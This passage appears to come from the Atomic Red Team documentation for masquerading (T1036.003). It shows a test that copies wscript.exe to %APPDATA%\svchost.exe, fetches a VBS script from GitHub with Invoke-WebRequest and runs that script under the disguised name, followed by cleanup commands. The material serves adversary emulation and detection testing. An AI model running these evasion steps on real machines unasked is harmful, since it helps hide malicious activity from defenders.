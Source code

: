 #### Cleanup Commands:

```cmd
del /Q /F %APPDATA%\notepad.exe >nul 2>&1
```

<br/>
<br/>

## Atomic Test #4 - Masquerading - wscript.exe running as svchost.exe

Copies wscript.exe, renames it, and launches it to masquerade as an instance of svchost.exe.

Upon execution, no windows will remain open but wscript will have been renamed to svchost and ran out of the temp folder

**Supported Platforms:** Windows

**auto_generated_guid:** 24136435-c91a-4ede-9da1-8b284a1c1a23

#### Attack Commands: Run with `command_prompt`!

```cmd
copy %SystemRoot%\System32\wscript.exe %APPDATA%\svchost.exe /Y
cmd.exe /c %APPDATA%\svchost.exe "PathToAtomicsFolder\..\ExternalPayloads\T1036.003\src\T1036.003_masquerading.vbs"
```

#### Cleanup Commands:

```cmd
del /Q /F %APPDATA%\svchost.exe >nul 2>&1
```

#### Dependencies: Run with `powershell`!

##### Description: Wscript file to execute must exist on disk

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\T1036.003\src\T1036.003_masquerading.vbs") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "PathToAtomicsFolder\..\ExternalPayloads\T1036.003\src\T1036.003_masquerading.vbs") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1036.003/src/T1036.003_masquerading.vbs" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\T1036.003\src\T1036.003_masquerading.vbs"
```

<br/>
<br/>
